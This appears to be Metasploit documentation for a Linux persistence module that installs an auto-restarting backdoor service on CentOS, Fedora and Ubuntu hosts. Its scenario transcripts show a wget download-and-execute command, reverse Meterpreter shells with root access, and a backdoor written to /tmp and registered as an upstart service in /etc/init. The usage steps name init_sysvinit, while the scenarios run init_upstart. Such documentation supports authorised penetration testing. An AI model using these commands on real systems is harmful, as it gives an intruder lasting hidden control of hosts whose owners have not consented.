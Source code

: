 ## Vulnerable Application

This module will create a service on the box, and mark it for auto-restart.
We need enough access to write service files and potentially restart services

Targets:

* CentOS 6
* Fedora >= 9, < 15
* Ubuntu >= 9.10, <= 14.10

## Verification Steps

1. Exploit a box
2. `use exploit/linux/persistence/init_sysvinit`
3. `set SESSION <session>`
4. `set PAYLOAD <payload>`
5. `set LHOST <lhost>`
6. `exploit`

## Options

**SERVICE**

The name of the service to create.  If not chosen, a random one is created.

**PAYLOAD_NAME**

The name of the file to write with our shell if a non-cmd payload is used.  If not chosen, a random one is created.

**RESTART_LIMIT**

The number of times to restart the service. If using a threaded payload (fetch), this is how many shells you may get. Defaults to 3

## Scenarios

### Ubuntu 14.04

Initial access vector via web delivery

```
resource (/root/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/root/.msf4/msfconsole.rc)> setg lhost 111.111.1.111
lhost => 111.111.1.111
resource (/root/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set srvport 8181
srvport => 8181
resource (/root/.msf4/msfconsole.rc)> set target 7
target => 7
resource (/root/.msf4/msfconsole.rc)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set lport 4545
lport => 4545
resource (/root/.msf4/msfconsole.rc)> set URIPATH l
URIPATH => l
resource (/root/.msf4/msfconsole.rc)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Starting persistent handler(s)...
[*] Started reverse TCP handler on 111.111.1.111:4545 
[*] Using URL: http://111.111.1.111:8181/l
[*] Server started.
[*] Run the following command on the target machine:
wget -qO HvGO7GyB --no-check-certificate http://111.111.1.111:8181/l; chmod +x HvGO7GyB; ./HvGO7GyB& disown
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > 
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.222
[*] Meterpreter session 1 opened (111.111.1.111:4545 -> 222.222.2.222:52092) at 2025-02-16 10:52:49 -0500

[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/linux/persistence/init_upstart 
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
[msf](Jobs:2 Agents:2) exploit(linux/persistence/init_upstart) > sessions -i 1
[*] Starting interaction with 1...

(Meterpreter 1)(/home/ubuntu) > sysinfo
Computer     : Ubuntu14.04
OS           : Ubuntu 14.04 (Linux 3.13.0-24-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
(Meterpreter 1)(/home/ubuntu) > getuid
Server username: root
(Meterpreter 1)(/home/ubuntu) > background
[*] Backgrounding session 1...
```

Persistence

```
[msf](Jobs:1 Agents:1) exploit(linux/persistence/init_upstart) > set session 1
session => 1
[msf](Jobs:1 Agents:1) exploit(linux/persistence/init_upstart) > set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
[msf](Jobs:1 Agents:1) exploit(linux/persistence/init_upstart) > exploit
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(linux/persistence/init_upstart) > 
[*] Started reverse TCP handler on 111.111.1.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] Payloads in /tmp will only last until reboot, you want to choose elsewhere.
[+] The target appears to be vulnerable. /tmp/ is writable and system is upstart based
[*] Writing backdoor to /tmp//GXhkVaF
[*] Writing '/tmp//GXhkVaF' (250 bytes) ...
[*] Writing service: /etc/init/kKxVjJjUUOVq.conf
[*] Starting service
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.222
[*] Meterpreter-compatible Cleaup RC file: /root/.msf4/logs/persistence/Ubuntu14.04_20250216.5324/Ubuntu14.04_20250216.5324.rc
[*] Meterpreter session 2 opened (111.111.1.111:4444 -> 222.222.2.222:53847) at 2025-02-16 10:53:24 -0500
```
